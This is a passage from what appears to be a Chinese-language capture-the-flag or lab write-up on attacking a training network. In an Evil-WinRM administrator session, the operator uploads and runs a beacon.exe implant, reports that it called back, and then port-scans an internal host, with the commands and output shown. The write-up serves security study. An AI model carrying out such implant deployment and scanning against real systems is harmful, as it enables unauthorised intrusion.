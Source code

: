 
上传到靶机执行
```
*Evil-WinRM* PS C:\Users\Administrator\Documents> upload beacon.exe
Info: Uploading beacon.exe to C:\Users\Administrator\Documents\beacon.exe

                                                             
Data: 384340 bytes of 384340 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\Administrator\Documents> .\beacon.exe
```


收到返回的beacon


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661333509026.jpg)






# Task 33  Personal PC Enumeration

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> Invoke-Portscan -Hosts 10.200.101.100 -TopPorts 50


Hostname      : 10.200.101.100
alive         : True
openPorts     : {80, 3389}
closedPorts   : {}
filteredPorts : {445, 443, 5900, 993...}
finishTime    : 8/24/2022 9:58:37 AM

```
